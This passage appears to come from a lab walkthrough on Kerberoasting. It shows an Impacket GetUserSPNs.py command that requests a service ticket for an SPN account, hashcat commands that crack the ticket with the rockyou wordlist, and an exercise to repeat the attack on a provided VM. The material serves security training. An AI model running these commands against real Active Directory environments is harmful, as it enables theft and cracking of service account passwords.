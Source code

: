 The output revealed that we have an SPN account, svc-user. Once we find the SPN user, we can send a single request to get a TGS ticket for the srv-user user using the -request-user argument.

**Kali**

```
python3.9 /opt/impacket/examples/GetUserSPNs.py -dc-ip $VICTIM $DOMAIN/$USERNAME -request-user $OTHERUSER
Password: $PASSWORD
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (7).png" alt=""><figcaption></figcaption></figure>

Now, it is a matter of cracking the obtained TGS ticket using the HashCat tool using `-m 13100` mode as follows,

**Kali**

```
hashcat -a 0 -m 13100 spn.hash /usr/share/wordlists/rockyou.txt
hashcat -a 0 -m 13100 spn.hash /usr/share/wordlists/rockyou.txt --show
```

<figure><img src="../../.gitbook/assets/image (12) (1) (5).png" alt=""><figcaption></figcaption></figure>

Try replicating the steps against the attached VM by finding the SPN user and then performing the Kerberoasting attack. Once you have obtained the ticket, crack it and answer the question below.
